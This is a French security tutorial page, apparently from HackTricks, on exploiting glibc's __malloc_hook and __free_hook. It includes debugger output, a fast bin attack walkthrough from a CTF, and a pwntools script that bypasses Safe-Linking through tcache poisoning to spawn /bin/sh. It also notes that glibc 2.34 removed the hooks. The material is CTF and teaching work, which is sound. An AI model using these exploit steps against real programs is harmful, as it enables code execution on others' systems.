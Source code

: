 # WWW2Exec - __malloc_hook & __free_hook

{{#include ../../banners/hacktricks-training.md}}

## **Malloc Hook**

Comme vous pouvez le voir sur [le site officiel de GNU](https://www.gnu.org/software/libc/manual/html_node/Hooks-for-Malloc.html), la variable **`__malloc_hook`** est un pointeur pointant vers **l'adresse d'une fonction qui sera appelée** chaque fois que `malloc()` est appelée **stockée dans la section de données de la bibliothèque libc**. Par conséquent, si cette adresse est écrasée avec un **One Gadget** par exemple et que `malloc` est appelé, le **One Gadget sera appelé**.

Pour appeler malloc, il est possible d'attendre que le programme l'appelle ou en **appelant `printf("%10000$c")`** qui alloue trop d'octets, ce qui fait que `libc` appelle malloc pour les allouer dans le tas.

Plus d'infos sur One Gadget dans :

{{#ref}}
../rop-return-oriented-programing/ret2lib/one-gadget.md
{{#endref}}

> [!WARNING]
> Notez que les hooks sont **désactivés pour GLIBC >= 2.34**. Il existe d'autres techniques qui peuvent être utilisées sur les versions modernes de GLIBC. Voir : [https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md](https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md).

## Free Hook

Cela a été abusé dans un des exemples de la page abusant d'une attaque de fast bin après avoir abusé d'une attaque d'unsorted bin :

{{#ref}}
../libc-heap/unsorted-bin-attack.md
{{#endref}}

Il est possible de trouver l'adresse de `__free_hook` si le binaire a des symboles avec la commande suivante :
```bash
gef➤  p &__free_hook
```
[Dans le post](https://guyinatuxedo.github.io/41-house_of_force/bkp16_cookbook/index.html), vous pouvez trouver un guide étape par étape sur la façon de localiser l'adresse du free hook sans symboles. En résumé, dans la fonction free :

<pre class="language-armasm"><code class="lang-armasm">gef➤  x/20i free
0xf75dedc0 <free>: push   ebx
0xf75dedc1 <free+1>: call   0xf768f625
0xf75dedc6 <free+6>: add    ebx,0x14323a
0xf75dedcc <free+12>:  sub    esp,0x8
0xf75dedcf <free+15>:  mov    eax,DWORD PTR [ebx-0x98]
0xf75dedd5 <free+21>:  mov    ecx,DWORD PTR [esp+0x10]
<strong>0xf75dedd9 <free+25>:  mov    eax,DWORD PTR [eax]--- BREAK HERE
</strong>0xf75deddb <free+27>:  test   eax,eax ;<
0xf75deddd <free+29>:  jne    0xf75dee50 <free+144>
</code></pre>

Dans le point d'arrêt mentionné dans le code précédent, `$eax` contiendra l'adresse du free hook.

Maintenant, une **attaque fast bin** est effectuée :

- Tout d'abord, il est découvert qu'il est possible de travailler avec des **chunks de taille 200** à l'emplacement de **`__free_hook`** :
- <pre class="language-c"><code class="lang-c">gef➤  p &__free_hook
$1 = (void (**)(void *, const void *)) 0x7ff1e9e607a8 <__free_hook>
gef➤  x/60gx 0x7ff1e9e607a8 - 0x59
<strong>0x7ff1e9e6074f: 0x0000000000000000      0x0000000000000200
</strong>0x7ff1e9e6075f: 0x0000000000000000      0x0000000000000000
0x7ff1e9e6076f <list_all_lock+15>:      0x0000000000000000      0x0000000000000000
0x7ff1e9e6077f <_IO_stdfile_2_lock+15>: 0x0000000000000000      0x0000000000000000
</code></pre>
- Si nous parvenons à obtenir un chunk rapide de taille 0x200 à cet emplacement, il sera possible d'écraser un pointeur de fonction qui sera exécuté.
- Pour cela, un nouveau chunk de taille `0xfc` est créé et la fonction fusionnée est appelée avec ce pointeur deux fois, de cette façon nous obtenons un pointeur vers un chunk libéré de taille `0xfc*2 = 0x1f8` dans le fast bin.
- Ensuite, la fonction d'édition est appelée dans ce chunk pour modifier l'adresse **`fd`** de ce fast bin afin de pointer vers la fonction **`__free_hook`** précédente.
- Ensuite, un chunk de taille `0x1f8` est créé pour récupérer du fast bin le chunk inutile précédent, donc un autre chunk de taille `0x1f8` est créé pour obtenir un chunk fast bin dans le **`__free_hook`** qui est écrasé avec l'adresse de la fonction **`system`**.
- Et enfin, un chunk contenant la chaîne `/bin/sh\x00` est libéré en appelant la fonction de suppression, déclenchant la fonction **`__free_hook`** qui pointe vers system avec `/bin/sh\x00` comme paramètre.

---

## Poisoning de Tcache & Safe-Linking (glibc 2.32 – 2.33)

glibc 2.32 a introduit **Safe-Linking** – un contrôle d'intégrité qui protège les listes *simplement* liées utilisées par **tcache** et fast-bins. Au lieu de stocker un pointeur avant brut (`fd`), ptmalloc le stocke maintenant *obfusqué* avec le macro suivant :
```c
#define PROTECT_PTR(pos, ptr) (((size_t)(pos) >> 12) ^ (size_t)(ptr))
#define REVEAL_PTR(ptr)       PROTECT_PTR(&ptr, ptr)
```
Conséquences de l'exploitation :

1. Un **heap leak** est obligatoire – l'attaquant doit connaître la valeur d'exécution de `chunk_addr >> 12` pour créer un pointeur obfusqué valide.
2. Seul le pointeur de 8 octets *complet* peut être forgé ; les écrasements partiels d'un octet ne passeront pas la vérification.

Un primitive de tcache-poisoning minimale qui écrase `__free_hook` sur glibc 2.32/2.33 ressemble donc à :
```py
from pwn import *

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p    = process("./vuln")

# 1. Leak a heap pointer (e.g. via UAF or show-after-free)
heap_leak   = u64(p.recvuntil(b"\n")[:6].ljust(8, b"\x00"))
heap_base   = heap_leak & ~0xfff
fd_key      = heap_base >> 12  # value used by PROTECT_PTR
log.success(f"heap @ {hex(heap_base)}")

# 2. Prepare two same-size chunks and double-free one of them
a = malloc(0x48)
b = malloc(0x48)
free(a)
free(b)
free(a)           # tcache double-free ⇒ poisoning primitive

# 3. Forge obfuscated fd that points to __free_hook
free_hook = libc.sym['__free_hook']
poison    = free_hook ^ fd_key
edit(a, p64(poison))  # overwrite fd of tcache entry

# 4. Two mallocs: the second one returns a pointer to __free_hook
malloc(0x48)           # returns chunk a
c = malloc(0x48)       # returns chunk @ __free_hook
edit(c, p64(libc.sym['system']))

# 5. Trigger
bin_sh = malloc(0x48)
edit(bin_sh, b"/bin/sh\x00")
free(bin_sh)
```
Le extrait ci-dessus a été adapté des récents défis CTF tels que *UIUCTF 2024 – «Rusty Pointers»* et *openECSC 2023 – «Babyheap G»*, qui reposaient tous deux sur des contournements de Safe-Linking pour écraser `__free_hook`.

---

## Qu'est-ce qui a changé dans glibc ≥ 2.34 ?

À partir de **glibc 2.34 (août 2021)**, les hooks d'allocation `__malloc_hook`, `__realloc_hook`, `__memalign_hook` et `__free_hook` ont été **supprimés de l'API publique et ne sont plus invoqués par l'allocateur**. Des symboles de compatibilité sont toujours exportés pour les binaires hérités, mais les écrasements ne influencent plus le flux de contrôle de `malloc()` ou `free()`.

Implication pratique : sur les distributions modernes (Ubuntu 22.04+, Fedora 35+, Debian 12, etc.), vous devez passer à d'autres primitives de détournement (IO-FILE, `__run_exit_handlers`, vtable spraying, etc.) car les écrasements de hooks échoueront silencieusement.

Si vous avez encore besoin du comportement ancien pour le débogage, glibc fournit `libc_malloc_debug.so` qui peut être préchargé pour réactiver les hooks hérités – mais la bibliothèque **n'est pas destinée à la production et pourrait disparaître dans de futures versions**.

---

## Références

- [https://ir0nstone.gitbook.io/notes/types/stack/one-gadgets-and-malloc-hook](https://ir0nstone.gitbook.io/notes/types/stack/one-gadgets-and-malloc-hook)
- [https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md](https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md).
- Safe-Linking – Élimination d'une primitive d'exploitation malloc() vieille de 20 ans (Check Point Research, 2020)
- Notes de version de glibc 2.34 – suppression des hooks malloc

{{#include ../../banners/hacktricks-training.md}}

